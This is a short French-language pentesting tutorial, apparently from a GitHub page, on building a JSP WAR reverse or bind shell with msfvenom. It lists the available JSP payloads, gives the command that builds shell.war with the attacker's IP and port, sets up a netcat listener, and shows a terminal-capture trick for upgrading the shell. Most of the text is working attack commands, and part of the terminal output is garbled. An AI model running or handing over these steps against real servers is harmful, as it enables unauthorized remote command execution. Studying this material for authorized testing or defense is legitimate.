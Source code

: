 Comment générer un shell War JSP inversé, lié et intégré au navigateur. Cela couvrira la génération de charges utiles avec MSFVenom et la création manuelle d'un fichier war à partir de nos propres fichiers JSP.
# JSP War Shell MSFVenom

En utilisant l' `msfvenom`outil intégré à Kali, nous pouvons voir quels shells nous avons disponibles :
`root@kali:~# msfvenom --list payloads | grep jsp`
    `java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell`
    `java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell`
`root@kali:~#`

Nous pouvons vérifier quels paramètres doivent être spécifiés en utilisant :
`msfvenom -p java/jsp_shell_bind_tcp --list-options`
`msfvenom -p java/jsp_shell_reverse_tcp --list-options`

`msfvenom -p java/jsp_shell_reverse_tcp  LHOST=mon_IP LPORT=3155 -f war > shell.war`

Un écouteur netcat peut être configuré pour écouter la connexion en utilisant :
`nc -nvlp 3155`


obtenir un meilleur Shell 

```
root@3a453ab39d3d:/backend# script /dev/null -c bash 
script /dev/null -c bash Script started, file is /dev/null root@3a453ab39d3d:/backend# ^Z [1]
+ Stopped nc -lnvp 443 
oxdf@hacky$ stty raw -echo; fg 
nc -lnvp 443 
reset r
eset: unknown terminal type unknown Terminal type? screen root@3a453ab39d3d:/backend#
```
